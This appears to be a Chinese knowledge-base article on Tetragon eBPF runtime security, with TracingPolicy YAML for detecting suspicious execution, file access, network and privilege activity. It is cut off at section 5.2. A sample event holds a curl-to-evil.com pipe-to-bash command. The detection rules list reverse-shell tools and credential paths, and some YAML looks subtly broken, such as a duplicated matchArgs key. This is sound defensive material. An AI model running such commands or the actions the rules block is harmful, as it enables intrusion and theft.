> **生产环境安全提示**
>
> 本文档包含可直接执行的运维命令。执行前请确认：当前目标集群与 Namespace 是否正确；是否具备足够的 RBAC 权限；是否已在非生产环境验证。命令风险等级标注：🔴 高风险（可能造成数据丢失或服务中断）、🟡 中风险（会修改集群状态，但通常可回滚）、🟢 低风险/只读（信息收集，无副作用）。


title: [[Tetragon|Tetragon]] 运行时安全 (Tetragon Runtime Security)
description: '# Tetragon 运行时安全 (Tetragon Runtime Security)'
category: ebpf-technology
tags:
- k8s
- ebpf
- [[Cilium|cilium]]
- networking
- observability
- kubelet
- prometheus
- jaeger
- coredns
- helm
last_updated: 2026-05
difficulty: expert
reading_level: expert
audience:
- SRE
- 网络工程师
- 内核工程师
estimated_read_time: 5min
intent_queries:
- Tetragon 运行时安全 (Tetragon Runtime Security) 是什么
- 如何 Tetragon 运行时安全 (Tetragon Runtime Security)
- Kubernetes 35 ebpf technology 最佳实践
trigger_keywords:
- Tetragon
- 运行时安全
- Tetragon
- Runtime
- Security
- ebpf
- technology
authors:
- name: KUDIG Team
  role: contributor
k8s_versions:
- '1.28'
- '1.29'
- '1.30'
- '1.31'
- '1.32'
---

# Tetragon 运行时安全 (Tetragon Runtime Security)

> **文档版本**: v1.0 | **适用版本**: Tetragon 1.1+ | **更新日期**: 2026-03-03  
> **关键词**: Tetragon, eBPF, 运行时安全, TracingPolicy, CNCF Sandbox, 容器安全, 威胁检测

---

<!-- chunk: 目录 (Table of Contents) -->## 目录 (Table of Contents)

1. [Tetragon 概述与 CNCF Sandbox](#1-tetragon-概述与-cncf-sandbox)
2. [eBPF 运行时安全原理](#2-ebpf-运行时安全原理)
3. [Tetragon 架构组件](#3-tetragon-架构组件)
4. [TracingPolicy CRD 详解](#4-tracingpolicy-crd-详解)
5. [策略动作：Log, Signal, Override](#5-策略动作log-signal-override)
6. [与 Falco 对比](#6-与-falco-对比)
7. [容器逃逸检测](#7-容器逃逸检测)
8. [Kubernetes 集成与 Helm 部署](#8-kubernetes-集成与-helm-部署)
9. [告警与 SIEM 集成](#9-告警与-siem-集成)
10. [企业级安全运营实践](#10-企业级安全运营实践)

---

<!-- chunk: 1. Tetragon 概述与 CNCF Sandbox -->## 1. Tetragon 概述与 CNCF Sandbox

## 1.1 什么是 Tetragon (What is Tetragon)

Tetragon 是由 Isovalent（Cilium 母公司）开源的基于 eBPF 的**运行时安全与可观测性**项目，于 2022 年捐赠给 CNCF 并进入 Sandbox 阶段。



## 1.2 核心能力概览 (Core Capabilities)



## 1.3 为什么选择 Tetragon (Why Tetragon)

| 维度 | 传统方案（auditd/seccomp） | Agent 方案（Falco） | Tetragon (eBPF) |
|------|--------------------------|--------------------|--------------------|
| **检测层级** | 系统调用级别 | 系统调用级别 | 内核函数级别 |
| **性能开销** | 中（内核模块） | 中高（内核模块/eBPF） | 极低（纯 eBPF JIT） |
| **上下文信息** | 有限 | 丰富 | 最丰富（K8s + 进程树 + 网络） |
| **策略执行** | 被动记录 | 被动记录 | **主动阻断**（Kill/Override） |
| **Kubernetes 感知** | 无 | 有（需配置） | **原生集成** |
| **容器逃逸检测** | 有限 | 有限 | **内核级检测** |
| **规则绕过难度** | 容易绕过 | 中等 | **极难绕过**（内核态执行） |
| **运维复杂度** | 高 | 中 | 低（CRD 驱动） |

---

<!-- chunk: 2. eBPF 运行时安全原理 -->## 2. eBPF 运行时安全原理

## 2.1 为什么 eBPF 适合运行时安全 (Why eBPF for Runtime Security)



## 2.2 eBPF 程序执行流程 (eBPF Execution Flow)



## 2.3 eBPF 安全检测的关键内核钩子点



---

<!-- chunk: 3. Tetragon 架构组件 -->## 3. Tetragon 架构组件

## 3.1 整体架构图 (Overall Architecture)



## 3.2 组件详解 (Component Details)

## Tetragon Daemon



## 3.3 Tetragon 数据模型 (Data Model)

每个 Tetragon 事件包含丰富的上下文信息：

```json
{
  "process_exec": {
    "process": {
      "exec_id": "a2luZC1jb250cm9sLXBsYW5lOjEyMzQ1Njc4OTox",
      "pid": 12345,
      "uid": 0,
      "cwd": "/tmp",
      "binary": "/bin/bash",
      "arguments": "-c 'curl http://evil.com/malware.sh | bash'",
      "flags": "execve",
      "start_time": "2026-03-03T10:30:00.123456789Z",
      "auid": 1000,
      "pod": {
        "namespace": "production",
        "name": "web-app-7d4b9f-xyz",
        "container": {
          "id": "containerd://abc123...",
          "name": "web-app",
          "image": {
            "id": "docker.io/company/web-app:v1.2.3",
            "name": "company/web-app:v1.2.3"
          },
          "start_time": "2026-03-03T08:00:00Z",
          "pid": 1
        },
        "pod_labels": {
          "app": "web-app",
          "version": "v1.2.3",
          "environment": "production"
        }
      },
      "node_name": "worker-node-1",
      "parent_exec_id": "parentExecId..."
    },
    "parent": {
      "pid": 1,
      "binary": "/pause",
      "start_time": "2026-03-03T08:00:00Z"
    }
  },
  "time": "2026-03-03T10:30:00.123456789Z",
  "node_name": "worker-node-1",
  "cluster_name": "prod-cluster-1"
}
```

---

<!-- chunk: 4. TracingPolicy CRD 详解 -->## 4. TracingPolicy CRD 详解

## 4.1 TracingPolicy 结构概览 (Structure Overview)



## 4.2 进程执行监控 (Process Execution Monitoring - kprobe: sys_execve)

```yaml
# TracingPolicy: 检测可疑进程执行
apiVersion: cilium.io/v1alpha1
kind: TracingPolicy
metadata:
  name: detect-suspicious-exec
  namespace: kube-system
spec:
  kprobes:
  # 监控 execve 系统调用
  - call: "sys_execve"
    syscall: true
    args:
    - index: 0
      type: "string"       # filename (可执行文件路径)
    - index: 1
      type: "string_array" # argv (命令行参数)
    selectors:
    # 场景1: 检测 /tmp 目录下的可执行文件运行
    - matchArgs:
      - index: 0
        operator: "Prefix"
        values:
        - "/tmp/"
        - "/dev/shm/"
        - "/var/tmp/"
      actions:
      - action: Signal
        argSig: 9  # SIGKILL - 立即终止
      - action: Post  # 同时记录日志
    
    # 场景2: 检测反弹 Shell 工具
    - matchArgs:
      - index: 0
        operator: "In"
        values:
        - "/usr/bin/ncat"
        - "/bin/nc"
        - "/usr/bin/netcat"
        - "/usr/bin/socat"
      matchNamespaces:
      - namespace: Mnt
        operator: NotIn
        values: []  # 在任何 Mount Namespace 中
      actions:
      - action: Signal
        argSig: 9
      - action: Post
    
    # 场景3: 检测 curl/wget 下载执行（不阻断，仅告警）
    - matchArgs:
      - index: 0
        operator: "In"
        values:
        - "/usr/bin/curl"
        - "/usr/bin/wget"
      - index: 1
        operator: "Postfix"
        values:
        - ".sh"
        - ".py"
        - ".pl"
        - ".exe"
      actions:
      - action: Post   # 仅记录，不阻断
        rateLimit: "60s"  # 限速，避免日志泛洪
        ratelimitScope: "process"
```

```yaml
# TracingPolicy: 监控特定容器内的所有进程执行
apiVersion: cilium.io/v1alpha1
kind: TracingPolicy
metadata:
  name: production-exec-audit
spec:
  kprobes:
  - call: "sys_execve"
    syscall: true
    args:
    - index: 0
      type: "string"
    - index: 1
      type: "string_array"
    selectors:
    # 只监控 production 命名空间的容器
    - matchNamespaces:
      - namespace: Mnt     # Mount Namespace (容器隔离)
        operator: In
        values: []         # 空值 = 所有非主机 MNT NS（即容器）
      matchCapabilities:
      - type: Permitted    # 进程具有的 capability
        operator: In
        values:
        - "CAP_SYS_ADMIN"  # 只关注有高权限的进程
        - "CAP_NET_ADMIN"
        - "CAP_SYS_PTRACE"
      actions:
      - action: Post
```

## 4.3 文件访问监控 (File Access Monitoring - kprobe: security_file_open)

```yaml
# TracingPolicy: 敏感文件访问监控
apiVersion: cilium.io/v1alpha1
kind: TracingPolicy
metadata:
  name: sensitive-file-access
spec:
  kprobes:
  # 使用 LSM 钩子监控文件访问（更精确）
  - call: "security_file_open"
    syscall: false
    args:
    - index: 0
      type: "file"    # 文件对象，包含路径信息
    selectors:
    # 场景1: 监控 /etc/passwd /etc/shadow 访问
    - matchArgs:
      - index: 0
        operator: "Prefix"
        values:
        - "/etc/passwd"
        - "/etc/shadow"
        - "/etc/sudoers"
        - "/etc/crontab"
        - "/root/.ssh/"
        - "/home/.*/.ssh/"
      matchBinaries:
      - operator: NotIn
        values:
        # 白名单：允许这些程序访问
        - "/usr/sbin/sshd"
        - "/usr/bin/sudo"
        - "/usr/bin/passwd"
      actions:
      - action: Post  # 记录告警
      - action: Signal
        argSig: 9     # 如果是容器内进程，则终止
    
    # 场景2: 监控 Kubernetes 证书文件访问
    - matchArgs:
      - index: 0
        operator: "Prefix"
        values:
        - "/var/lib/kubelet/pki/"
        - "/etc/kubernetes/pki/"
        - "/var/run/secrets/kubernetes.io/serviceaccount/"
      actions:
      - action: Post
    
    # 场景3: 检测对容器运行时 Socket 的访问
    - matchArgs:
      - index: 0
        operator: "In"
        values:
        - "/run/containerd/containerd.sock"
        - "/var/run/docker.sock"
        - "/run/crio/crio.sock"
      actions:
      - action: Post
      - action: Signal
        argSig: 9

  # 监控文件写入操作
  - call: "vfs_write"
    syscall: false
    args:
    - index: 0
      type: "file"
    - index: 1
      type: "char_buf"
      sizeArgIndex: 2
    - index: 2
      type: "size_t"
    selectors:
    # 检测对 /etc 目录的写入
    - matchArgs:
      - index: 0
        operator: "Prefix"
        values:
        - "/etc/"
      matchCapabilities:
      - type: Effective
        operator: NotIn
        values:
        - "CAP_DAC_OVERRIDE"  # 不是 root 或 privileged
      actions:
      - action: Post
```

## 4.4 网络连接监控 (Network Monitoring - kprobe: tcp_connect)

```yaml
# TracingPolicy: 网络连接监控
apiVersion: cilium.io/v1alpha1
kind: TracingPolicy
metadata:
  name: network-egress-monitor
spec:
  kprobes:
  # TCP 连接发起监控
  - call: "tcp_connect"
    syscall: false
    args:
    - index: 0
      type: "sock"    # sock 结构体，包含连接信息
    selectors:
    # 场景1: 检测连接到非常用端口（可疑 C2 通信）
    - matchArgs:
      - index: 0
        operator: "NotIn"
        values:
        - "dport:80"
        - "dport:443"
        - "dport:8080"
        - "dport:8443"
        - "dport:5432"  # PostgreSQL
        - "dport:6379"  # Redis
        - "dport:3306"  # MySQL
      matchBinaries:
      - operator: NotIn
        values:
        - "/usr/bin/curl"
        - "/usr/bin/wget"
        - "/usr/bin/ssh"
      actions:
      - action: Post
    
    # 场景2: 检测容器内向外部 IP 的 SSH 连接（端口 22）
    - matchArgs:
      - index: 0
        operator: "In"
        values:
        - "dport:22"
        - "dport:2222"
      actions:
      - action: Post
      - action: Signal
        argSig: 9  # 终止进程
    
    # 场景3: 检测 DNS over HTTPS (DoH) 绕过
    - matchArgs:
      - index: 0
        operator: "In"
        values:
        - "daddr:8.8.8.8"
        - "daddr:1.1.1.1"
        - "daddr:9.9.9.9"
      - index: 0
        operator: "In"
        values:
        - "dport:443"
      actions:
      - action: Post

  # UDP 监控（DNS 请求监控）
  - call: "udp_sendmsg"
    syscall: false
    args:
    - index: 0
      type: "sock"
    - index: 1
      type: "msghdr"
    selectors:
    # 监控非标准 DNS 服务器
    - matchArgs:
      - index: 0
        operator: "In"
        values:
        - "dport:53"
      - index: 0
        operator: "NotIn"
        values:
        - "daddr:10.96.0.10"   # CoreDNS ClusterIP
        - "daddr:10.96.0.0/16" # 集群 DNS 范围
      actions:
      - action: Post  # 记录所有 DNS 请求到非集群 DNS
```

## 4.5 特权操作监控 (Privileged Operation Monitoring)

```yaml
# TracingPolicy: 特权操作监控
apiVersion: cilium.io/v1alpha1
kind: TracingPolicy
metadata:
  name: privilege-escalation-detect
spec:
  kprobes:
  # 监控 capability 检查（识别特权操作）
  - call: "cap_capable"
    syscall: false
    return: true
    args:
    - index: 0
      type: "nsproxy"  # 命名空间代理
    - index: 2
      type: "int"      # capability 值
    returnArg:
      index: 0
      type: "int"      # 返回值（0=成功）
    selectors:
    # 场景1: 检测 CAP_SYS_ADMIN 使用
    - matchArgs:
      - index: 2
        operator: "In"
        values:
        - "21"  # CAP_SYS_ADMIN
        - "7"   # CAP_SETUID
        - "8"   # CAP_SETGID
      matchReturnArgs:
      - index: 0
        operator: "Equal"
        values:
        - "0"  # 成功（capability 被授予）
      actions:
      - action: Post

  # 监控 setuid 系统调用（权限提升）
  - call: "sys_setuid"
    syscall: true
    args:
    - index: 0
      type: "uint32"  # uid
    selectors:
    # 检测任何将 UID 变为 root 的操作
    - matchArgs:
      - index: 0
        operator: "Equal"
        values:
        - "0"  # root UID
      matchBinaries:
      - operator: NotIn
        values:
        - "/usr/bin/sudo"
        - "/usr/bin/su"
        - "/usr/sbin/sshd"
      actions:
      - action: Post
      - action: Signal
        argSig: 9

  # 监控 ptrace 系统调用（进程注入）
  - call: "sys_ptrace"
    syscall: true
    args:
    - index: 0
      type: "int"     # request
    - index: 1
      type: "int"     # pid (target)
    selectors:
    - matchArgs:
      - index: 0
        operator: "In"
        values:
        - "0"   # PTRACE_TRACEME
        - "16"  # PTRACE_ATTACH
        - "4096" # PTRACE_SEIZE
      actions:
      - action: Post
      - action: Signal
        argSig: 9

  # 监控 namespace 创建（容器逃逸前兆）
  - call: "sys_unshare"
    syscall: true
    args:
    - index: 0
      type: "int"   # flags (CLONE_NEWNS, CLONE_NEWUSER 等)
    selectors:
    # 检测 user namespace 创建（常见逃逸手法）
    - matchArgs:
      - index: 0
        operator: "Mask"
        values:
        - "268435456"  # CLONE_NEWUSER (0x10000000)
      actions:
      - action: Post
      - action: Signal
        argSig: 9
```

## 4.6 TracingPolicy 高级选择器 (Advanced Selectors)

```yaml
# TracingPolicy: 组合多种选择器的复杂策略
apiVersion: cilium.io/v1alpha1
kind: TracingPolicy
metadata:
  name: advanced-detection-policy
spec:
  kprobes:
  - call: "sys_execve"
    syscall: true
    args:
    - index: 0
      type: "string"
    selectors:
    # 复杂组合：多个 AND 条件
    - matchArgs:
      - index: 0
        operator: "In"
        values:
        - "/usr/bin/python3"
        - "/usr/bin/python"
        - "/usr/bin/perl"
        - "/usr/bin/ruby"
      # 匹配 capabilities（进程具有 NET_RAW）
      matchCapabilities:
      - type: Effective
        operator: In
        values:
        - "CAP_NET_RAW"     # 原始套接字（嗅探/欺骗）
        - "CAP_NET_BIND_SERVICE" # 绑定低端口
      # 匹配命名空间（容器内运行）
      matchNamespaces:
      - namespace: Mnt
        operator: NotIn
        values: []  # 非主机 MNT NS = 在容器内
      - namespace: User
        operator: NotIn
        values: []  # 非主机 User NS
      # 匹配进程属主（非标准用户）
      matchArgs:
      - index: 0
        operator: "NotPrefix"
        values:
        - "/usr/local/bin/gunicorn"  # 白名单排除
      actions:
      - action: Post
      - action: Signal
        argSig: 9

  # 使用 tracingpolicynamespaced 进行命名空间级别隔离
---
apiVersion: cilium.io/v1alpha1
kind: TracingPolicyNamespaced
metadata:
  name: namespace-specific-policy
  namespace: production
spec:
  # 同 TracingPolicy，但只影响指定命名空间的 Pod
  kprobes:
  - call: "sys_execve"
    syscall: true
    args:
    - index: 0
      type: "string"
    selectors:
    - matchArgs:
      - index: 0
        operator: "Prefix"
        values:
        - "/bin/sh"
        - "/bin/bash"
        - "/bin/dash"
      actions:
      - action: Post
```

---

<!-- chunk: 5. 策略动作：Log, Signal, Override -->## 5. 策略动作：Log, Signal, Override

## 5.1 动作类型详解 (Action Types)



## 5.2 Signal 动作配置详解

```yaml
